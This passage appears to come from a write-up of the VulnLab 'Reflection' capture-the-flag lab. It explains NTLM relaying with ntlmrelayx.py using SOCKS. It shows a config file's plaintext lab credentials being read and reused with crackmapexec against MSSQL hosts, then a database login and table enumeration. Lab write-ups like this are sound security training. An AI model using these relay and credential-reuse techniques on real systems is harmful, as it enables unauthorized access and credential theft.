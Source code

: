 ![img](/assets/screenshots/vulnlab-reflection/ntlm_relay.gif)

Few things to note about this attack:
- The `ntlmrelayx.py`  needs to be run with SMB2 support (`--smb2support` flag) and with the `--socks` flag. By default `ntlmrelayx.py` tries to dump the SAM database, but the compromised user has not enough privileges to do that, so instead i just tell it to start SOCKS proxy with the `--socks` option
- It is important to use the exact username that got intercepted by `ntlmrelayx.py`, in this case `REFLECTION\SVC_WEB_STAGING` (notice the shortened domain).  `Crackmapexec` requires FQDN to work, and therefore it fails in this case.

I was able to download the `prod_db.conf` file, which contains another set of credentials:
```bash
cat prod_db.conf                                                           
user=web_prod
password=Tribesman201
db=prod
```
These credentials work on the MSSQL server running on DC01:
```bash
crackmapexec mssql 10.10.194.213-214 -u 'web_prod' -p 'Tribesman201' --local-auth
MSSQL       10.10.194.213   1433   DC01             [*] Windows 10.0 Build 20348 (name:DC01) (domain:DC01)
MSSQL       10.10.194.214   1433   MS01             [*] Windows 10.0 Build 20348 (name:MS01) (domain:MS01)
MSSQL       10.10.194.213   1433   DC01             [+] web_prod:Tribesman201 
MSSQL       10.10.194.214   1433   MS01             [-] ERROR(MS01\SQLEXPRESS): Line 1: Login failed for user 'web_prod'.
Running CME against 2 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```
I can then login to the MSSQL database, and get two user credentials from the `prod` db:
```
SQL (web_prod  dbo@prod)> use prod;
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: prod
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'prod'.
SQL (web_prod  dbo@prod)> SELECT  DISTINCT  table_name FROM information_schema.columns
table_name   
----------   
```